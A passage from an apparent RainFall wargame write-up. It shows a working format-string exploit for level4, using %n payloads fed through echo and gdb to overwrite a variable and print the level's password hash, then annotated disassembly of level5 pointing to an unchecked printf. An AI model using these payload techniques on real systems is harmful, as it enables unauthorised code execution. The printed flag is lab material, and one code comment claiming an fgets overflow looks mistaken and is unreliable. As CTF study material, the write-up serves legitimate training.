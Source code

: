 ```bash

level4@RainFall:~$ echo -n -e '\x10\x98\x04\x08%12$n' >  /tmp/lol ; cat /tmp/lol | ./level4  | xxd
0000000: 1098 0408                                ....

level4@RainFall:~$ gdb ./level4

(gdb) b *0x08048492
Breakpoint 1 at 0x8048492

(gdb) run < /tmp/lol
Starting program: /home/user/level4/level4 < /tmp/lol

Breakpoint 1, 0x08048492 in n ()
(gdb) printf "%u", *0x8049810
4

# The value of m got modified by the %n operator ! Now let's give it the value of the comparison (16930116) by printing 16930112 more characters
echo -n -e '\x10\x98\x04\x08%16930112x%12$n' >  /tmp/lol ; cat /tmp/lol - | ./level4
# Should print a lot of spaces .... and then
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Level5

- [`objdump -d` output](http://ix.io/2cFu)

### ASM Interpretation

```asm
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp

   0x08048507 <+3>:	and    esp,0xfffffff0
   0x0804850a <+6>:	call   0x80484c2 <n> ; call n function

   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.

(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp

   0x080484c5 <+3>:	sub    esp,0x218 ; Allocate 0x218 bytes on the stack (528)
   0x080484cb <+9>:	mov    eax,ds:0x8049848 ; Set eax to stdin@@GLIBC_2.0
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax ; Set eax to 3rd argument of fgets()
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200 ; Set 512 to 2nd argument of fgets()
   0x080484dc <+26>:	lea    eax,[ebp-0x208] ; Set eax to 520th byte of the stack
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax ; Set eax as 1st argument of fgets()
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt> ; Call fgets(&buffer[16], 512, stdin); (512 + 16) > 528 so a buffer overflow is possible ...
     ;  char *fgets(char * restrict str, int size, FILE * restrict stream);
   0x080484ea <+40>:	lea    eax,[ebp-0x208] ; Set eax to 16th first byte of the stack
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax ; Set eax to 1st argument of printf()
   0x080484f3 <+49>:	call   0x8048380 <printf@plt> ; Call printf(eax) / printf(&buffer[16])
     ; int printf(const char * restrict format, ...);
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1 ; Set 1 as 1st argument of exit
   0x080484ff <+61>:	call   0x80483d0 <exit@plt> ; Call exit(1)
     ; void exit(int status);
```